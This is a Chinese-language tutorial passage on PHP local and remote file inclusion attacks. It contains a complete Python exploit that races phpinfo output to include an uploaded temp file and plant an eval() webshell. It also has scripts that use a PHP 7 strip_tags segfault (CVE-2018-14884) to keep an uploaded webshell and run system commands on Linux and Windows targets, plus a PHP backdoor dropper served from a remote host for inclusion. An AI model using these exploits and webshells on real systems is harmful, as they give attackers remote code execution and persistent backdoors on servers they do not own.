通过上面的介绍，服务器上存储的临时文件名是随机的，这就很难获取其真实的文件名。不过，如果目标网站上存在 phpinfo，则可以通过 phpinfo 来获取临时文件名，进而进行包含。
当我们在给 PHP 发送 POST 数据包时，如果数据包里包含文件区块，无论你访问的代码中有没有处理文件上传的逻辑，PHP 都会将这个文件保存成一个临时文件。文件名可以在 $_FILES 变量中找到。这个临时文件，在请求结束后就会被删除。
利用 phpinfo 的特性可以很好的帮助我们，因为 phpinfo 页面会将当前请求上下文中所有变量（所有数据）都打印出来，所以我们如果向 phpinfo 页面发送包含文件区块的数据包，则即可在返回包里找到 $_FILES 变量的内容，拿到 临时文件变量名 之后，就可以进行包含执行我们传入的恶意代码。
# 利用原理
验证了 phpinfo 的特性确实存在，所以在文件包含漏洞找不到可利用的文件时，我们就可以利用这一特性，找到并提取临时文件名，然后包含之即可 Getshell。
但文件包含漏洞和 phpinfo 页面通常是两个页面，理论上我们需要先发送数据包给 phpinfo 页面，然后从返回页面中匹配出临时文件名，再将这个文件名发送给文件包含漏洞页面，进行 getshell。但是在第一个请求结束时，临时文件就被删除了，第二个请求自然也就无法进行包含。
利用过程
这个时候就需要用到条件竞争，具体原理和过程如下：
（1）发送包含了 webshell 的上传数据包给 phpinfo 页面，这个数据包的 header、get 等位置需要塞满垃圾数据
（2）因为 phpinfo 页面会将所有数据都打印出来，1 中的垃圾数据会将整个 phpinfo 页面撑得非常大
（3）php 默认的输出缓冲区大小为 4096，可以理解为 php 每次返回 4096 个字节给 socket 连接
（4）所以，我们直接操作原生 socket，每次读取 4096 个字节。只要读取到的字符里包含临时文件名，就立即发送第二个数据包
（5）此时，第一个数据包的 socket 连接实际上还没结束，因为 php 还在继续每次输出 4096 个字节，所以临时文件此时还没有删除
（6）利用这个时间差，第二个数据包，也就是文件包含漏洞的利用，即可成功包含临时文件，最终 getshell
（参考 ph 牛：https://github.com/vulhub/vulhub/tree/master/php/inclusion ）
#!/usr/bin/python | |
#python version 2.7 | |
import sys | |
import threading | |
import socket | |
def setup(host, port): | |
TAG = "Security Test" | |
PAYLOAD = """%sr | |
<?php file_put_contents('/tmp/Qftm', '<?php eval($_REQUEST[Qftm])?>')?>r""" % TAG | |
# PAYLOAD = """%sr | |
# <?php file_put_contents('/var/www/html/Qftm.php', '<?php eval($_REQUEST[Qftm])?>')?>r""" % TAG | |
REQ1_DATA = """-----------------------------7dbff1ded0714r | |
Content-Disposition: form-data; name="dummyname"; filename="test.txt"r | |
Content-Type: text/plainr | |
r | |
%s | |
-----------------------------7dbff1ded0714--r""" % PAYLOAD | |
padding = "A" * 5000 | |
REQ1 = """POST /phpinfo.php?a=""" + padding + """ HTTP/1.1r | |
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie=""" + padding + """r | |
HTTP_ACCEPT: """ + padding + """r | |
HTTP_USER_AGENT: """ + padding + """r | |
HTTP_ACCEPT_LANGUAGE: """ + padding + """r | |
HTTP_PRAGMA: """ + padding + """r | |
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714r | |
Content-Length: %sr | |
Host: %sr | |
r | |
%s""" % (len(REQ1_DATA), host, REQ1_DATA) | |
# modify this to suit the LFI script | |
LFIREQ = """GET /index.php?file=%s HTTP/1.1r | |
User-Agent: Mozilla/4.0r | |
Proxy-Connection: Keep-Aliver | |
Host: %sr | |
r | |
r | |
""" | |
return (REQ1, TAG, LFIREQ) | |
def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag): | |
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) | |
s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM) | |
s.connect((host, port)) | |
s2.connect((host, port)) | |
s.send(phpinforeq) | |
d = "" | |
while len(d) < offset: | |
d += s.recv(offset) | |
try: | |
i = d.index("[tmp_name] => ") | |
fn = d[i + 17:i + 31] | |
except ValueError: | |
return None | |
s2.send(lfireq % (fn, host)) | |
d = s2.recv(4096) | |
s.close() | |
s2.close() | |
if d.find(tag) != -1: | |
return fn | |
counter = 0 | |
class ThreadWorker(threading.Thread): | |
def __init__(self, e, l, m, *args): | |
threading.Thread.__init__(self) | |
self.event = e | |
self.lock = l | |
self.maxattempts = m | |
self.args = args | |
def run(self): | |
global counter | |
while not self.event.is_set(): | |
with self.lock: | |
if counter >= self.maxattempts: | |
return | |
counter += 1 | |
try: | |
x = phpInfoLFI(*self.args) | |
if self.event.is_set(): | |
break | |
if x: | |
print "nGot it! Shell created in /tmp/Qftm.php" | |
self.event.set() | |
except socket.error: | |
return | |
def getOffset(host, port, phpinforeq): | |
"""Gets offset of tmp_name in the php output""" | |
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) | |
s.connect((host, port)) | |
s.send(phpinforeq) | |
d = "" | |
while True: | |
i = s.recv(4096) | |
d += i | |
if i == "": | |
break | |
# detect the final chunk | |
if i.endswith("0rnrn"): | |
break | |
s.close() | |
i = d.find("[tmp_name] => ") | |
if i == -1: | |
raise ValueError("No php tmp_name in phpinfo output") | |
print "found %s at %i" % (d[i:i + 10], i) | |
# padded up a bit | |
return i + 256 | |
def main(): | |
print "LFI With PHPInfo()" | |
print "-=" * 30 | |
if len(sys.argv) < 2: | |
print "Usage: %s host [port] [threads]" % sys.argv[0] | |
sys.exit(1) | |
try: | |
host = socket.gethostbyname(sys.argv[1]) | |
except socket.error, e: | |
print "Error with hostname %s: %s" % (sys.argv[1], e) | |
sys.exit(1) | |
port = 80 | |
try: | |
port = int(sys.argv[2]) | |
except IndexError: | |
pass | |
except ValueError, e: | |
print "Error with port %d: %s" % (sys.argv[2], e) | |
sys.exit(1) | |
poolsz = 10 | |
try: | |
poolsz = int(sys.argv[3]) | |
except IndexError: | |
pass | |
except ValueError, e: | |
print "Error with poolsz %d: %s" % (sys.argv[3], e) | |
sys.exit(1) | |
print "Getting initial offset...", | |
reqphp, tag, reqlfi = setup(host, port) | |
offset = getOffset(host, port, reqphp) | |
sys.stdout.flush() | |
maxattempts = 1000 | |
e = threading.Event() | |
l = threading.Lock() | |
print "Spawning worker pool (%d)..." % poolsz | |
sys.stdout.flush() | |
tp = [] | |
for i in range(0, poolsz): | |
tp.append(ThreadWorker(e, l, maxattempts, host, port, reqphp, offset, reqlfi, tag)) | |
for t in tp: | |
t.start() | |
try: | |
while not e.wait(1): | |
if e.is_set(): | |
break | |
with l: | |
sys.stdout.write("r% 4d / % 4d" % (counter, maxattempts)) | |
sys.stdout.flush() | |
if counter >= maxattempts: | |
break | |
print | |
if e.is_set(): | |
print "Woot! m/" | |
else: | |
print ":(" | |
except KeyboardInterrupt: | |
print "nTelling threads to shutdown..." | |
e.set() | |
print "Shuttin' down..." | |
for t in tp: | |
t.join() | |
if __name__ == "__main__": | |
main() |
Getshell
利用 ph 牛的代码，不用重复的造轮子，直接更改脚本主要的几个地方就可以成功运行利用，如上传的恶意文件内容 **、**phpinfo.php 和 index.php 相应文件的文件名和位置、系统临时文件写入目录等
运行脚本 Getshell
python2 exp.py host port phpinforeq (一般填 200)
修改脚本之后，运行即可包含生成我们精心设置好的 /tmp/Qftm 后门文件
所以说临时文件包含关键点就是获取到临时文件的名字。
但如果不能利用 phpinfo ()，该怎么办呢？
这里可以用 php7 segment fault 特性（CVE-2018-14884）进行 Bypass。
php 代码中使用 php://filter 的 strip_tags 过滤器，可以让 php 执行的时候直接出现 Segment Fault , 这样 php 的垃圾回收机制就不会在继续执行，导致 POST 的文件会保存在系统的缓存目录下不会被清除而不像 phpinfo 那样上传的文件很快就会被删除，这样的情况下我们只需要知道其文件名就可以包含我们的恶意代码。
官方在 PHP Version 7.0.28 时已经修复该漏洞
http://192.33.6.145/index.php?file=php://filter/string.strip_tags/resource=/etc/passwd |
这种 包含 会导致 php 执行过程中出现 segment fault，此时 上传文件，临时文件会被保存在 upload_tmp_dir 所指定的目录下，不会被删除，这样就能达成 getshell 的目的。
利用条件
7.0.0 <= PHP Version < 7.0.28
测试一下：
index.php
<?php | |
$a = @$_GET['file']; | |
include $a; | |
?> | |
1234 |
dir.php
<?php | |
$a = @$_GET['dir']; | |
var_dump(scandir($a)); | |
?> | |
1234 |
测试环境
PHP Version 7.0.9 |
string.strip_tags 过滤器导致出现 php segment fault
index.php?file=php://filter/string.strip_tags/resource=index.php |
此时 上传文件，临时文件会被保存在 upload_tmp_dir 所指定的目录下，从而不会被删除，一直存储在服务器的临时目录里面。
可以通过 dir.php 辅助查找生成的临时文件
#python version 2.7 | |
import requests | |
from io import BytesIO | |
import re | |
files = { | |
'file': BytesIO('<?php eval($_REQUEST[Qftm]);') | |
} | |
url1 = 'http://192.168.68.119/index.php?file=php://filter/string.strip_tags/resource=index.php' | |
r = requests.post(url=url1, files=files, allow_redirects=False) | |
url2 = 'http://192.168.68.119/dir.php?dir=/tmp/' | |
r = requests.get(url2) | |
data = re.search(r"php[a-zA-Z0-9]{1,}", r.content).group(0) | |
print "++++++++++++++++++++++" | |
print data | |
print "++++++++++++++++++++++" | |
url3='http://192.168.68.119/index.php?file=/tmp/'+data | |
data = { | |
'Qftm':"system('whoami');" | |
} | |
r = requests.post(url=url3,data=data) | |
print r.content |
windows 网络攻击环境下的脚本编写
#python version 2.7 | |
import requests | |
from io import BytesIO | |
import re | |
files = { | |
'file': BytesIO('<?php eval($_REQUEST[Qftm]);') | |
} | |
url1 = 'http://192.168.68.119/web/fi/index.php?file=php://filter/string.strip_tags/resource=index.php' | |
r = requests.post(url=url1, files=files, allow_redirects=False) | |
url2 = 'http://192.168.68.119/web/fi/dir.php?dir=C:/Windows/' | |
r = requests.get(url2) | |
data = re.search(r"php[a-zA-Z0-9]{1,}", r.content).group(0) | |
print "++++++++++++++++++++++" | |
print data | |
print "++++++++++++++++++++++" | |
url3='http://192.168.68.119/web/fi/index.php?file=C:/Windows/'+data+'.tmp' | |
data = { | |
'Qftm':"system('whoami');" | |
} | |
r = requests.post(url=url3,data=data) | |
print r.content |
或者可以使用工具破解：
几款好用的 Fuzz 工具
基于Go开发：gobuster https://github.com/OJ/gobuster | |
基于Java开发：dirbuster OWASP杰出工具 kali自带 | |
基于Python开发：wfuzz https://github.com/xmendez/wfuzz |
本地文件包含目前能想到的只有这么多，等后续遇到新的包含方式再补充。
如有欠缺，还请多多包涵！
# 远程文件包含
当我们不知道对方服务器有哪些文件，我们可以利用远程包含漏洞，将自己服务器上的文件下载到被人的服务器上。
这个目前在比赛中遇见的少，毕竟使用条件比较苛刻。
# 利用条件
1. 在 php.ini 中需要 allow_url_include = on 和 allow_url_fopen= on
2. 所需的远程文件后缀不能与目标服务器的语言相同，如目标服务器解析 PHP 代码，则远程文件后缀不能为.php。
让我解释一下第二点，如果你的远程文件具有.php 后缀，并且你的远程文件内容如下所示：
<? php phpinfo ();
那么在远程服务器执行 phpinfo () 之后，你就可以获得目标服务器的内容。由于它不会运行代码，所以包含的信息不是目标服务器，而是远程服务器。
使用远程文件包含首先你得有个服务器，并且要开启服务，这样别人才能访问到你写的文件。
# 举个例子
我在我的服务器上开启了 apache 服务，并且在其中有个 pika.txt 的文件，里面存在写好的 shell：
<?php | |
$a = "<?php eval(\$_POST['123'])?>"; | |
$b = fopen("a.php","w") or die("123!"); | |
fwrite($b,$a); | |
fclose($b); | |
echo "大佬！木马已生成。 "; | |
echo '<br/>'; | |
?> |

然后就可以利用 http、ftp 协议来进行远程文件包含。
常见形式就是？file=http://1.94.24.55/pika.txt
或者？file=ftp://1.94.24.55/pika.txt
在特定条件下，gopher 协议、file 协议也能起到作用。